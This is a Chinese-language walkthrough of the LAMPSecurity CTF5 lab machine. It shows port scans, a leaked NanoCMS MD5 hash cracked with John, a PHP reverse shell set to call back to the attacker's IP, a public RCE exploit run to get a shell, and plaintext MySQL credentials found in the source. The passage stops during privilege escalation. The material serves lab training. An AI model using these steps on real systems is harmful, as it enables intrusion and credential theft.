# 前言

### 靶场介绍

LAMPSecurity CTF5 是 madirish2600 出品的 LAMPSecurity 系列第五个靶机，基于 Fedora 8 的 LAMP 环境搭建。靶机不提供任何初始凭据，需要从零开始通过信息收集和漏洞利用获取系统权限。涉及 NanoCMS 凭证泄露、MySQL 数据库利用、Samba 服务探测等多个攻击面。
### 靶场信息
| 字段     | 值                                                   |
| ------ | --------------------------------------------------- |
| 靶机名    | LAMPSecurity: CTF5                                  |
| 靶机 IP  | 192.168.200.160                                     |
| 靶机 URL | https://www.vulnhub.com/entry/lampsecurity-ctf5,84/ |
| 下载（镜像） | https://download.vulnhub.com/lampsecurity/ctf5.zip  |
### 涉及工具

- Nmap
- Smbclient / Smbmap
- Dirsearch
- John
- Python
- MySQL CLI

### 思维导图



---

# 1. 信息收集

## 1.1 Nmap 信息扫描

### 端口扫描

```bash
nmap -sT -p- --min-rate=10000 192.168.200.160 -oA ports
```



```bash
$ cat ports.nmap | grep open | awk -F'/' '{print $1}'|paste -sd ','
22,25,80,110,111,139,143,445,901,3306,33051
```


存在 RPC，需补充 UDP 扫描

> 开放端口：22,25,80,110,111,139,143,445,901,3306,33051

### 详细信息

```bash
nmap -sT -sV -sC -O -p $ports 192.168.200.160 -oA detail
```

```
Starting Nmap 7.95 ( https://nmap.org ) at 2026-05-19 21:23 EDT
Nmap scan report for 192.168.200.160
Host is up (0.00072s latency).

PORT      STATE SERVICE     VERSION
22/tcp    open  ssh         OpenSSH 4.7 (protocol 2.0)
| ssh-hostkey: 
|   1024 05:c3:aa:15:2b:57:c7:f4:2b:d3:41:1c:74:76:cd:3d (DSA)
|_  2048 43:fa:3c:08:ab:e7:8b:39:c3:d6:f3:a4:54:19:fe:a6 (RSA)
25/tcp    open  smtp        Sendmail 8.14.1/8.14.1
80/tcp    open  http        Apache httpd 2.2.6 ((Fedora))
|_http-title: Phake Organization
110/tcp   open  pop3        ipop3d 2006k.101
111/tcp   open  rpcbind     2-4 (RPC #100000)
| rpcinfo: 
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100024  1          32768/udp   status
|_  100024  1          33051/tcp   status
139/tcp   open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: MYGROUP)
143/tcp   open  imap        University of Washington IMAP imapd 2006k.396
445/tcp   open  netbios-ssn Samba smbd 3.0.26a-6.fc8 (workgroup: MYGROUP)  # <-- Samba 版本
901/tcp   open  http        Samba SWAT administration server
3306/tcp  open  mysql       MySQL 5.0.45
33051/tcp open  status      1 (RPC #100024)
MAC Address: 00:0C:29:1B:FC:7E (VMware)

OS details: Linux 2.6.9 - 2.6.30
Service Info: Hosts: localhost.localdomain, 192.168.200.160; OS: Unix

| smb-os-discovery: 
|   OS: Unix (Samba 3.0.26a-6.fc8)
|   Computer name: localhost
|   FQDN: localhost.localdomain
```



临时总结：扫描到了很多服务，SMB 有一个共享出来的文件，正常的 HTTP 和 MySQL，UDP 有 NFS，两个邮件服务。打算先去测试 SMB 中有没有泄露的信息，再看看 MySQL 能不能匿名登入，后续去探测 HTTP，不行再去测 NFS。

### UDP 扫描

```bash
nmap -sU -p 111,2049,32765-32768 192.168.200.160 -oA udp
```



```
Starting Nmap 7.95 ( https://nmap.org ) at 2026-05-19 21:33 EDT
Nmap scan report for 192.168.200.160

PORT      STATE  SERVICE
111/udp   open   rpcbind
2049/udp  closed nfs       # <-- NFS 未开放
32765/udp closed unknown
32766/udp closed unknown
32767/udp closed filenet-powsrm
32768/udp open   omad
```

### 漏洞扫描

```bash
nmap -sT -sV -sC -O -p $ports 192.168.200.160 -oA detail
```

---

## 1.2 SMB 探测

由于在 nmap 中扫描到了 smb 服务，并泄露出来一个工作组，先枚举共享。

```bash
smbclient -L //192.168.200.160 -N
```



在 Nmap 中的扫描可能存在错误，真实工作组为`homes`，尝试访问，访问无效：



再用 smbmap 确认一下是不是真不能访问还是 smbclient 版本问题：

```bash
smbmap -H 192.168.200.160
```



扫描结果显示 no access，应该是真不能访问了。保存一下 smb server 版本：`Samba Server Version 3.0.26a-6.fc8`，之后其他方式尝试无果再回来用这个试试。

---

## 1.3 MySQL 探测

很明显，mysql 不能通过匿名直接访问：

```bash
mysql -uroot -h192.168.200.160 -p
```



---

## 1.4 Web 探测

访问 web 主页：



> 页面内容：Phake Organization is your one stop shop for event organization...

访问页面源码，没有什么有效信息，就是主页看到的跳转链接。记下来打算点几个链接，同时进行目录枚举。

```
http://192.168.200.160/index.php?page=about   # 无有效内容

http://192.168.200.160/~andy/                 # 泄露 CMS 名称：powered by NanoCMS
```



通过点击 webmail 链接：

```
http://192.168.200.160/mail/src/login.php
# SquirrelMail version 1.4.11-1.fc8
```



NanoCMS Admin Login 管理后台地址：

```
http://192.168.200.160/~andy/data/nanoadmin.php
```



目录枚举：

```bash
dirsearch -u 'http://192.168.200.160/' -o dirs.txt
```



```
http://192.168.200.160/info.php      # phpinfo()
http://192.168.200.160/events/       # Phake Organization Event Manager
http://192.168.200.160/phpmyadmin/   # phpmyadmin
http://192.168.200.160/list          # 注册账户
```

信息汇总，确认优先级：
- NanoCMS：知道后台登入地址，找 exp
- SquirrelMail 1.4.11：邮件管理服务
- phpmyadmin：可尝试爆破
- 在现有页面找注入点

---

# 2. Web 渗透

## 2.1 NanoCMS 凭证泄露

通过联网搜索，找到一个 exp（https://www.exploit-db.com/exploits/50997），但需要登入后台才能实现 RCE。NanoCMS 暂时可能不行，打算换 SquirrelMail 切入。（这里没有仔细翻阅搜索引擎内容，其中有一个提示这个 cms 存在路径凭证泄露）

NanoCMS `/data/pagesdata.txt` 密码哈希信息泄露漏洞：
- 参考：https://vulners.com/openvas/OPENVAS:1361412562310100141
- 泄露地址：`http://192.168.200.160/~andy/data/pagesdata.txt`

```
a:12:{...s:8:"username";s:5:"admin";s:8:"password";s:32:"9d2f75377ac0ab991d40c91fd27e52fd";...}
```

这段内容是 PHP 序列化数据，其中包含一个 MD5 hash。

> Q: john 破解中 format 有很多 md5 该怎么选？

| Format       | 适用场景                          |
| ------------ | ----------------------------- |
| `raw-md5`    | 普通 MD5，直接对密码哈希                |
| `md5crypt`   | Linux `/etc/shadow` 里的 `$1$...` |
| `dynamic_0`  | 等同 raw-md5 的另一种写法             |

```bash
# john 爆破
john --format=Raw-MD5 --wordlist=/usr/share/wordlists/rockyou.txt hash.txt

# 查看凭证
john --show --format=Raw-MD5 hash.txt
```



获得凭证：`admin:shannon`

---

## 2.2 NanoCMS RCE 获取反弹 Shell

### 准备 PHP 反弹 Shell

```bash
cp /usr/share/webshells/php/php-reverse-shell.php ./shell.php
vim ./shell.php
```

修改 shell.php 里的两行，改成 Kali 的 IP 和监听端口：

```php
$ip = '192.168.200.142';
$port = 4444;
```

### 运行 exp

```bash
# 安装exp需要的依赖
pip install requests bs4

# 运行exp
python nanocms_v0.4_exp.py http://192.168.200.160/~andy/ shell.php -u admin -p shannon -e
```



上传反弹 shell 的位置：`http://192.168.200.160/~andy/data/pages/7b4f0e96.php`

Kali 中提前开启的 nc 监听，已连接成功：



---

# 3. 提权

## 3.1 信息收集

拿到 webshell 后的基础信息：

```bash
sh-3.2$ whoami
apache
sh-3.2$ id
uid=48(apache) gid=48(apache) groups=48(apache) context=system_u:system_r:httpd_t:s0
```

之前信息收集阶段探测到有很多服务，比较好奇 mysql 里面的内容，决定先看一下有没有泄露的凭证可以利用。

### 搜索配置文件

```bash
sh-3.2$ find . -name "*conf*"
./html/squirrelmail/config/config.php
./html/phpmyadmin/config.inc.php
./html/phpmyadmin/config.inc.php.bak
./html/phpmyadmin/libraries/config.default.php
...
```

查看了上面的几个配置文件，并未从里面发现有效信息。

### 打包源码分析

但是我的直觉告诉我，这台靶机中一定存在凭证泄露，我决定将 Web 服务的源码打包到本地来查看。

```bash
tar -czvf /tmp/backup.tar.gz html
```



通过查询，在 `./html/list/index.php` 中发现明文数据库凭证：

> 这个路径是之前目录枚举的时候就找到的，不过由于信息过多没有仔细查看，重新访问，这是一个很简陋的php页面确实会存在凭证泄露的可能

```php
$link = mysql_connect('localhost', 'root', 'mysqlpassword');  
```



可以登入 phpmyadmin，也可以通过 cli 的 mysql 连接：

